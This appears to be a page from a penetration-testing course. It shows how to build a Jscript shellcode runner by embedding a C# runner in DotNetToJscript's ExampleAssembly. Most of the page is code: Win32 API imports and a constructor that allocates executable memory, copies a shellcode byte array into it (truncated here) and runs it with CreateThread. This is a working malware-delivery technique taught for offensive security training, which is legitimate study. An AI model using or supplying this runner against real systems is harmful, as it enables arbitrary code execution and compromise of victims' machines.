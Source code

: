 Answer

## 5.2.5. Jscript Shellcode Runner

Now that we have the C# shellcode runner working, we must modify the ExampleAssembly project in DotNetToJscript to execute the shellcode runner instead of the previous simple proof of concept code. We'll also generate a Jscript file with the compiled assembly so we can launch the shellcode runner directly from Jscript.

As mentioned earlier, any declarations using DllImport must be placed in the relevant class, but outside the method it is used in. In this case, we need to put them in the _TestClass_ class, shown below. We've also added the needed namespaces at the beginning of the project with the "using" keyword followed by the namespace:

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

...
```

> Listing 33 - Win32 APIs imported in ExampleAssembly

Next, we'll add the same shellcode and method calls inside the _TestClass_ method as in our standalone project:

```
public TestClass()
{
      byte[] buf = new byte[626] {
          0xfc,0x48,0x83,0xe4,0xf0,0xe8...

      int size = buf.Length;

      IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

      Marshal.Copy(buf, 0, addr, size);

      IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

      WaitForSingleObject(hThread, 0xFFFFFFFF);
}
```
